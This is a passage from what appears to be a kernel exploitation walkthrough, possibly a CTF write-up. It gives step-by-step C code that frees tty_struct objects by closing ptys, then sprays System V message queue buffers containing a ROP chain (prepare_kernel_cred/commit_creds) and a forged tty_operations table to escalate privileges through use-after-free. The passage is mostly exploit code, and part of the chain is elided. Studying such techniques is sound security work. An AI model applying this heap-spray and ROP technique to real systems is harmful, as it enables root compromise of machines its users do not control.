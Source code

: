 ```sh
...
```
### Setting up ROP gadgets and function table

#### 5. Create message queues and dellocate the `tty_struct` by closing the devices.

```c

// Creating 4 message queues :D
int msg_queue[4];
int msg_count = 0;

for(int i = 0; i < 4; i++) {
  int msg_qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  if (msg_qid == -1) {
    err("`msgget()` failed to initialize queue");
  } else {
    msg_queue[msg_count++] = msg_qid;
    printf("[+] Created message queue %d: %d\n", i, msg_qid);
  }
}

// close ptys (deallocate)
for (int i = 0; i < 20; i++) {
  if (ptys[i] >= 0) close(ptys[i]);
}
```

#### 6. spam messages containing ROP gadgets and our function table hoping one of these messages gets allocated into our heap.

```c
int set_message(int queue_index, int* msg_queue){
	int queue = msg_queue[queue_index];

	size_t fails = 0;
    struct msgbuf {
        long mtype;
        char mtext[MSG_SZ];
    } msg;
	msg.mtype = 0x1337;
	memset(msg.mtext, 0, MSG_SZ);
	uint64_t *payload = (uint64_t*)&msg.mtext[0];
	// Set up the ROP chain
	payload_len=0;
	payload[payload_len++] = pop_rdi;
	payload[payload_len++] = 0; // rdi = NULL
	payload[payload_len++] = prepare_kernel_cred;
	payload[payload_len++] = pop_r12;
	payload[payload_len++] = commit_creds;
  // ... rest of the ROP CHAIN kpti trampoline, etc

	uint64_t *ops = (uint64_t*)&(payload[payload_len]);

	// tty_operations table
	for(int i = 0; i < 20; i++) {
		if (i ==4 || i==5 || i==6 || i==19) {
			ops[i] = ret_gadget;
			continue;
		}
		ops[i] = 0xdeadbeefdeadbe00 + i;
	}
```